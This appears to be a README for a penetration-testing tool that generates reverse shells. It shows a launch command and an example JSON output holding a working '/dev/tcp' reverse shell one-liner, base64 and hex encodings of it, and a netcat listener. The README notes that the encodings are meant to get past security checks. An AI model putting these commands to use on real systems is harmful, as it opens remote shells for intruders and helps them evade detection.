

## Reverse Shell Generaor

This tool help you to generate reverse shells for many purposes, mostly related with penetration testing.

To execute the `Reverse-Shell-Generator.jar` executable, you need to run from the terminal:
```shell
java -jar --enable-preview Reverse-Shell-Generator.jar
```

You can interact with the GUI and you'll get a reverse shell and a listener code to run with your own needs.

The output is as a JSON Object, and give you all the info and code that you maybe need, like IP, Port, if root permissions are required and the differents codes.

The Reverse code is given in plain text, Base 64 encode and Hex encode, because maybe there are security when a payload is sent.

Example JSON Output:

```json
{
  "parameters": {
    "localIP": "10.10.10.10",
    "localPort": 80,
    "requireRootPermission": true
  },
  "reverse_listener_code": "sudo nc -lvnp 80",
  "reverse_shell_code": "sh -i >& /dev/tcp/10.10.10.10/80 0>&1",
  "reverse_shell_code_b64": "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvODAgMD4mMQ==",
  "reverse_shell_code_hex": "7368202d69203e26202f6465762f7463702f31302e31302e31302e31302f383020303e2631"
}
```

GUI:

